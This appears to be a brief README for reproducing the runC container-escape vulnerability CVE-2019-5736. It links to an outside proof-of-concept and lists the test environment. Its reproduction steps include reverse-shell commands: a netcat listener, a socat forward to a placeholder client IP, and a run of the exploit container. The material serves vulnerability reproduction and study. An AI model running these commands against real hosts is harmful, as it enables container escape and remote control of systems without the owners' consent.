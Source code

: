 # CVE-2019-5736

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-5736>


## PoC / Exploit

* <https://github.com/twistlock/RunC-CVE-2019-5736> 


## Environment used

* Ubuntu 18.04.3 LTS
* Docker-CE 18.06.0


## Reproduction
**Warning:** Uninstall any Docker version in server **first**. 

* Client terminal (reverse shell)
```shell script
nc -nvlp 2345
```
* Host
```shell script
bash script.sh
socat TCP-LISTEN:2345,fork TCP:<Client IP>:2345 &
sudo docker run cve-2019-5736 2>/dev/null
```
 
